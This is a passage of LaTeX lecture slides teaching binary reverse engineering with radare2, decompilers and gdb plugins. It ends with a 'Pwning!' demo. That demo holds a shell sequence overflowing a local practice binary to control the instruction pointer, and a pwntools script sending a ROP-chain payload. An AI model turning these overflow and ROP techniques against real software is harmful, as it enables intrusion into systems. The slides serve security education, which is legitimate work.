    
\includegraphics[width=\textwidth]{../images/radare-disas3.png}
  \end{center}
\end{frame}

\begin{frame}[plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/radare-disas2.png}
  \end{center}
\end{frame}

%\begin{frame}[plain]
%  \begin{center}
%    \color{white} \texttt{objdump} and C++ symbols

%    \vspace{2em}

%    
\includegraphics[width=\textwidth]{../images/objdump-cpp.png}
%  \end{center}
%\end{frame}

%\begin{frame}[plain,fragile]
%  \begin{center}
%    \color{white} \verb+e asm.demangle=true+

%    \vspace{2em}

%    
\includegraphics[width=\textwidth]{../images/r2-cpp.png}
%  \end{center}
%\end{frame}
}

\begin{frame}[fragile]
  {radare2 -- example commands}

  \begin{itemize}
    \item Search for functions containing \verb+"exec"+ \\
      \begin{center}
        \verb!afl~exec!
      \end{center}
    \item Show/search all strings in the file \\
      \begin{center}
        \texttt{izz} \\
        \verb!izz~FLAG!
      \end{center}
    \item Compute \texttt{CRC32} over next 32 byte \\
      \begin{center}
        \verb+#crc32 32+
      \end{center}
  \end{itemize}

\end{frame}


\begin{frame}[fragile]
  {Binary Decompilers}

  \begin{itemize}
    \item No really good open source binary decompilers \verb+:(+
      \begin{itemize}
        \item The radare guys are working on one
      \end{itemize}
    \item Commercial/Closed-Source
      \begin{itemize}
        \item Hex-Rays/IDA Pro Decompiler (\$\$\$)
        \item \href{http://hopperapp.com/}{Hopper} (\$)
        \item \href{https://retdec.com/}{retdec} (free, webservice, no \verb+x86_64+)
      \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[plain]
	\begin{center}
    \huge Debugging?
	\end{center}
\end{frame}


{\setbeamercolor{background canvas}{bg=black}
\begin{frame}[plain]
  \begin{center}
    
\includegraphics[height=\textheight]{../images/gdb-plain.png}
  \end{center}
\end{frame}

\begin{frame}[plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/gdb-peda.png}
  \end{center}
\end{frame}
}

\begin{frame}
  {Debuggers}

  \begin{itemize}
    \item Use gdb with one of those:
      \begin{itemize}
        \item \href{https://github.com/longld/peda}{PEDA}
        \item \href{https://github.com/hugsy/gef}{GEF}
        \item \href{https://github.com/zachriggle/pwndbg}{pwndbg}
        \item \href{https://github.com/snare/voltron}{voltron}
        \item \href{https://github.com/cyrus-and/gdb-dashboard}{gdb-dashboard}
      \end{itemize}
    \item gdb alternatives: lldb, radare2
    \item Newer debugging approaches
      \begin{itemize}
        \item \href{https://github.com/BinaryAnalysisPlatform/qira}{qira}
        \item \href{http://rr-project.org/}{rr}
      \end{itemize}
  \end{itemize}
\end{frame}


% We don't use it so we don't recommend it?
%\begin{frame}
%  {QIRA -- ``Timeless Debugging''}
%  \todo[inline]{add qira screenshot}
%\end{frame}


% pwntools - build exploits and pwn binaries

\begin{frame}[fragile,plain]

  {\Huge Pwning!}
  \vspace{1em}

  \begin{lstlisting}
$ mkfifo ./fifo
$ ./pwn ./fifo & python -c 'print("A"*4128)' >> ./fifo
[1] 9391
The file has been saved successfully
[1]  + 9391 segmentation fault (core dumped)  ./pwn ./fifo
$ dmesg | tail -n 1
pwn[9391]: segfault at 41414141 ip 0000000041414141
  sp 00000000ffb6d340 error 14
  \end{lstlisting}
\end{frame}


\begin{frame}[fragile]
  {pwntools again!}

  \begin{lstlisting}[language=python]
from pwn import *  # NOQA

velf = ELF("./pwn")
r = ROP(velf)
r.call("exit", [42])
payload = "A" * 4124 + str(r)

# launch process
vp = process(["./pwn", "./fifo"])
gdb.attach(vp)
# break *0x8048f4e

with open("./fifo", "w") as f:
    f.write(payload)

# forward stdin/stdout to process stdin/stdout
vp.interactive()
  \end{lstlisting}
\end{frame}


{\setbeamercolor{background canvas}{bg=black}
\begin{frame}[plain]
  \begin{center}
    
\includegraphics[height=0.7\textheight]{../images/pwntools-exp.png}
  \end{center}
\end{frame}


\begin{frame}[plain]
  \begin{center}
